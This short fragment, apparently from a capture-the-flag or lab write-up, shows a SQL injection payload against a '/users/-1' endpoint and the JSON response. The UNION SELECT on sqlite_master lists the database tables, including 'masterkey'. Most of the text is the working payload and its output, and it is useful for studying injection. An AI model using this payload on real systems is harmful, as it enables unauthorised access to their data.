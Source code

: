 
```
/users/-1 UNION SELECT NULL,name,NULL,NULL,NULL FROM sqlite_master WHERE type='table'--
```


<img width="1342" height="941" alt="image" src="https://github.com/user-attachments/assets/293e7b9c-25a2-44c6-b555-ad5984537a62" />


```json
[
  {
    "id": null,
    "name": "ar_internal_metadata",
    "email": null,
    "created_at": null,
    "updated_at": null
  },
  {
    "id": null,
    "name": "masterkey",
    "email": null,
    "created_at": null,
    "updated_at": null
  },
  {
    "id": null,
    "name": "masterkeys",
    "email": null,
    "created_at": null,
    "updated_at": null
  },
  {
    "id": null,
    "name": "schema_migrations",
    "email": null,
    "created_at": null,
    "updated_at": null
  },
  {
    "id": null,
    "name": "sqlite_sequence",
    "email": null,
    "created_at": null,
    "updated_at": null
  },
  {
    "id": null,
    "name": "users",
    "email": null,
    "created_at": null,
    "updated_at": null
  }
]
```
